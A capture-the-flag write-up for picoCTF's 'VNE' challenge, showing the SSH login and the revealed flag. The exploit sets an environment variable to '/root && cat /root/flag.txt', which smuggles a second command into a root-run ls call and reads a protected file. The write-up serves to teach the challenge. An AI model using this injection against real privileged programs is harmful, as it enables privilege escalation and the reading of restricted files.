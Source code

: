 # Writeup: VNE

## Overview

This challenge involves understanding of Linux operator and environment variables to reveal the flag.

## Info

1. **Challenge Description**

```text
We've got a binary that can list directories as root, try it out !! 
ssh to saturn.picoctf.net:50136, and run the binary named "bin" once connected. 
Login as ctf-player with the password, 3f39b042
```

2. Hint
  - Have you checked the content of the /root folder
  - Find a way to add more instructions to the ls

## Exploitation steps
1. Connect to the server as `ctf-player`.

```terminal
$ ssh -p 50136 ctf-player@saturn.picoctf.net
```

2. Check files in the current directory.

```terminal
ctf-player@pico-chall$ ls
bin
```

3. Run `bin` as in the challenge description said.

```terminal
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
```

`bin` requires the `SECRET_DIR` environment variable to be set.

4. Set the environment variable `SECRET_DIR` to `/root` and run `bin` again.

```terminal
ctf-player@pico-chall$ export SECRET_DIR=/root
ctf-player@pico-chall$ ./bin
Listing the content of /root as root: 
flag.txt
```

Seems like the `bin` running `ls $SECRET_DIR`

5. Add the instruction using `&&` operator to output the flag.

```terminal
ctf-player@pico-chall$ export SECRET_DIR='/root && cat /root/flag.txt'
ctf-player@pico-chall$ ./bin
Listing the content of /root && cat /root/flag.txt as root: 
flag.txt
picoCTF{Power_t0_man!pul4t3_3nv_1670f174}
```

##  Conclusion
By setting up `SECRET_DIR` environment variable and adding additional commands, we can reveal the flag.
